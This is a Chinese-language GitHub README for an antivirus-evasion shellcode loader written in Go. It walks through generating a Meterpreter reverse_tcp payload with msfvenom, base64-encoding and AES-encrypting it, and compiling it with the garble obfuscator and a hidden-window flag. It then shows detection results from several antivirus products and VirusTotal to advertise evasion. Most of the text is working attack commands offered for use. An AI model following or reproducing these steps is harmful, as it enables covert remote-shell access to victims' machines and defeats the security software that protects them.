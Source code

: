 # go-shellcode-loader

GO免杀shellcode加载器

#### 获取项目

```Bash
git clone https://github.com/HZzz2/go-shellcode-loader.git
cd go-shellcode-loader
//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
go install mvdan.cc/garble@latest    

```

#### 生成shellcode并base64

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`

`base64 -w 0 -i rev.raw > rev.bs64`

`cat rev.bs64`

**复制到aes-sc.go中的51行替换payload**

运行aes-sc.go生成AES加密后的值

`go run aes-sc.go`

复制输出的值到go-sc.go中的73行替换payload

#### **编译成exe可执行程序**

`garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go`

参数解释：

  garble(混淆库)：
                          -tiny                    删除额外信息
                          
                          -literals               混淆文字

                          -seed=random   base64编码的随机种子 

  go：
        -w                        去掉调试信息，不能gdb调试了

        -s                         去掉符号表

        -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）

        -race                    使数据允许竞争检测

编译后得到go-sc.exe

#### 检测图

**火绒**

![](https://secure2.wostatic.cn/static/scesU3bCQaeSVpCehTJS84/image.png)

**360杀毒**

![](https://secure2.wostatic.cn/static/psmiLExVYYV725LtsLD3TU/image.png)

**360卫士**

![](https://secure2.wostatic.cn/static/f7gKLhEe1ApdDQwyLBN1a6/image.png)

**DF**

![](https://secure2.wostatic.cn/static/kvuYuMrLSZqxz1gzRjVowT/image.png)

**virustotal**

![](https://secure2.wostatic.cn/static/q69psHHLVRfNxXf4oKBK2J/image.png)

**微步云杀箱**

![](https://secure2.wostatic.cn/static/i1UvjPfa3DE9q9ALwwmbvH/image.png)



**运行效果**
https://user-images.githubusercontent.com/22775890/172315032-7ab13fea-9900-4cec-903e-48c8f7d0f2b7.mp4




